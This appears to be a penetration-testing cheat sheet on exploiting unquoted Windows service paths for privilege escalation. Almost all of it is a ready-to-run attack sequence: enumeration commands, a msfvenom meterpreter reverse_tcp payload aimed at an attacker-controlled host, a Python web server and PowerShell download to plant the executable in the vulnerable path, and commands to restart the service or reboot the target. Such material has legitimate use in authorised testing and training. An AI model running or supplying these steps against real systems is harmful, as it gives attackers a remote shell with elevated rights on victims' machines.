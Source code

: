 We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\Path"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o reverse.exe
```
Configure webserver to host file for transfer and listener for meterpreter shell:
```bash
python -m http.server 80
```
```bash
msfconsole
```
```bash
use exploit/multi/handler
```
Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/reverse.exe -Outfile "C:\Vulnerable\Service\Path.exe"
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
```batch
net stop $SERVICE
```
```batch
net start $SERVICE
```
```batch
shutdown /r /t 0
```
